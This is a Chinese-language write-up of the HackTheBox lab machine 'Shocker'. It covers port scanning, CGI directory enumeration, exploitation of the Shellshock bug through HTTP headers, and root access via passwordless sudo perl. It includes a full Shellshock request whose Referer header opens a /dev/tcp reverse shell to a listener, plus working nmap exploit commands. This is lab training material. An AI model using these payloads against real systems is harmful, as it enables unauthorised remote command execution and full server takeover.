

Shocker Writeup
0x01 信息收集
就给一个 IP，不扫端口你还能咋地，nmap 走起来。
1、TCP Scan
nmap -A -p- -oA nmap/tcp 10.10.10.56发现两个开放端口。
- 80: apache 2.4.18，可能是漏洞版本，开放了 web 页面，title 无
- 2222: OpenSSH 7.2p2，操作系统为 ubuntu linux
2、UDP Scan
nmap -sU -A -p- -oA nmap/udp 10.10.10.56无结果。
共开放了 tcp 80、2222 端口。
0x02 漏洞利用
根据端口逐一突破。
1、Port 80
Google 和 nmap 找了 apache 2.4.18 漏洞，无结果，目前只能从 web 入手。
80端口，web 应用，浏览器打开，就一个首页带个图片，没有功能按钮，看了下 console 没有什么提示，翻了下主页 html 也无发现。
目前为止没有入口，只能先扫下目录，用 dirbuster 跑默认字典，只有这几个结果。
- icon: 图片目录
- cgi-bin: 通用网关接口，可能存在 cgi 漏洞
cgi 使得用户可以通过浏览器执行脚本，这里需要找到具体的脚本路径，一般脚本位于 /cgi-bin/*，以此为 url 基础再跑一次扫描，限制后缀为 .php,.sh,.py,.cgi,.pl
发现存在脚本，路径为 /cgi-bin/user.sh
手工利用
浏览器打开 http://10.10.10.56/cgi-bin/user.sh，burpsuite 抓包，会下载一个 user.sh（不知有何卵用）。
根据 cgi 漏洞，会在请求头里传递一个函数，后面跟着要执行的命令，构造方式比较复杂，懒得构造的我借助一下 nmap。
查过漏洞后知道有个代号叫 shellshock，正好也跟盒子名呼应，可以根据这个去查。
cd /usr/share/nmap/scripts
ll | grep shellshock
不知道这个代号也没关系，通过关键字一样查，根据 url 参数，发现一个匹配的。
cd /usr/share/nmap/scripts
grep "cgi-bin" -R ./ | grep -v cve从脚本内容中找到 usage。
使用脚本打一下漏洞，地址指向 burpsuite:8080，同时配置 burpsuite:8080 重定向到靶机 10.10.10.56:80，这样扫描流量就会经过 burp 留下记录，方便后续调试。
nmap -sV -p8080 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 127.0.0.1
纳尼，没有扫出来？!
不慌，先看下具体请求。这里在三个 header 中注入了 sh 命令，执行结果在响应中可见，存在 RCE。
格式的坑
注意到下面还有条记录，执行
ls返回500异常，这里经过调查发现有几个格式的坑，格式没对就不会回显或报异常。
此处因为 nmap 脚本有 bug，payload 少了一个 echo 导致扫描异常。
- 想正常回显，
() { :;};后面一定要先跟echo;，再接上命令比如/bin/ls- 命令一定要用绝对路径，比如
ls要改成/bin/ls所以这里正确构造应该是：
() { :;}; echo; /bin/ls /。
修改 nmap 脚本，把当 “cmd 为空” 时的echo;挪到下面。
以whoami测试，返回用户名shelly，扫描功能正常。nmap -sV -p8080 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=/usr/bin/whoami 127.0.0.1

综上所述，kali 监听 4444，发送反弹 shell 命令，获取到 普通用户 shelly 权限。
GET /cgi-bin/user.sh HTTP/1.1
Referer: () { :;}; echo;/bin/bash -i >& /dev/tcp/10.10.14.2/4444 0>&1
Host: localhost:8080
Connection: closeMSF
比较简单啦，晚点再补充。
2、Port 2222
没研究 233
0x03 提权
先检查 sudo 权限表配置 sudo -l，发现可以免密执行 perl 脚本，得。
在刚刚 shell 中 sudo 执行一句话 perl /bin/bash，获得 root 权限。
sudo perl -e 'exec("/bin/bash")'